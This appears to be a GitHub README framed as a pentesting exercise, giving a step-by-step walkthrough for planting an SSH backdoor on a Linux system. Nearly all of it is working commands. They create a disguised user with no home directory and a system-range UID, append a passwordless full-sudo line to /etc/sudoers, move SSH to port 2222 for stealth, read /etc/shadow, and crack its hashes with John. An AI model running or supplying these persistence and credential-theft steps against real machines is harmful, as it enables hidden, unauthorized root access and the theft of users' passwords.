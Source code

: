 # Creating a Back-Door - Owning the System

There are several Pentesting phases, methodologies, or frameworks such as the Mitre and the Cyber kill Chain frameworks. This project focus on the fourth phase of engagement (Maintaining Access) or their equivalents like "Command and Control" for the cyber kill chain or "Persistence" for the Mitre framework.

To obtain this persistence, a backdoor is created using the SSH service. In short, two things need to be accomplished to succeed in this task: Create a user, and set the SSH server.

> NOTE: This walkthrough assumes that the commands are executed as the root user. Otherwise, will be necessary to be a privileged user and to use the sudo command when required.

---

## Three steps are required to accomplish this task:

- Step 1: **Be a shadow** (Create a stealth user).

- Step 2: **Getting ready for a Smooth Sailing** (Set the SSH backdoor connection).

- Step 3: **All aboard** (The Final Test).

---

## Step 1: Be a shadow (Create a stealth user).


To be a "shadow" in the system means to remain as unnoticed as possible. To achieve it, we will create a user with different features next listed.

1. The right user's name.
2. User with no home directory.
2. System user's UID and GID.
4. Grant full sudo privileges to the "shadow user" without the need of a password.
5. Testing

- ### The right user's name

    Use a name that blends with the system, so remain unotice. A name that looks as a process will be the choice in this walkthrough.

    **Username: sysd**

- ### User with no home directory   

    It is easy to look for listed users in a Linux system by quering the /home directory (see the picture). 
    
     ![1](Images/1.PNG)    
    
    A user not listed in the home path will obtain stealth. To create a new user without a folder in the home directory, use the next command:

    `adduser --no-create-home sysd`

    Give your secret user a password:

    `passwd sysd`

- ### System user's UID and GID

    UID (User Identified), and GID (Group Identifier) are numbers that identify users and groups. Numbers below 1000 are reserved for system processes. The "shadow user" should look like another process, so the following commands will do that.

    `usermod  -u 777 sysd`

    `groupmod -g 777 sysd`

- ### Grant full sudo privileges to the "shadow user" without the need of a password.

    On a Linux system, the sudoers file is the file where the privilege settings exist. Here, sudo access will be configured for the "shadow" user using the following command:

    `echo 'sysd ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers`

- ### Testing

    To verify that the "shadow" user has full sudo privileges and is ready to use them without a password, use the following commands:

    Check sysd priviledges:
    `sudo  -lU sysd`

    Switch from current user to sysd user:
    `su sysd`

    To test the current user sudo privileges, we need to revoke any previous sudo privileges stored in the cache. The next command accomplishes this.

    `sudo -k`

    Check if ask for password when accessing the shadow file. This sensitive file holds the passwords' hash of all users in the system. Usually, only a sudo privilege user has access to this file. This user would need to enter a password to gain access. If no password is required, our setting pass the test. 

    `sudo cat /etc/shadow`

---

## Step 2: Getting ready for a Smooth Sailing (Set the SSH backdoor connection)

We will use SSH (Secure Shell) to establish a remote connection with the target device. To create this backdoor, we need to set the SSH server configuration file. This file is located in the ssh directory. This directory holds several configuration files such as the SSH client, SSH server, and public and private keys used to encrypt sessions. SSH normally uses port 22. We want to maintain a stealth connection, so we are changing that port to 2222.

- Access and modify the file with nano:

    `nano /etc/ssh/sshd_config`

- Edit the sshd_config file:

    `Port 2222`

- Save and Exit
    ```
    Press "Ctrl x" keys
    Press "y" key
    Press "enter" key
    ```

- Restart the SSH service to activate the new configuration:

    `systemctl restart ssh`

---

## Step 3: All aboard (The Final Test)

Exiting the target machine, then access it again through the previously created backdoor.

- Exit the target machine

    Exit the root account:

    `exit`

    Exit the target machine:

    `exit `

- Access the target throught the backdoor

    `ssh sysd@192.168.6.105 -p 2222`

- Use sudo to switch to the root user:

    `sudo -s`

---

A backdoor has been created. Now that persistence (Command and Control or Maintaining Access) has been accomplished, it is time to move to the next step of the killer chain (Actions on Objective) or to the last stage of engagement (Covering your tracks).

Example:
Use John to crack the entire /etc/shadow file:

`john /etc//shadow`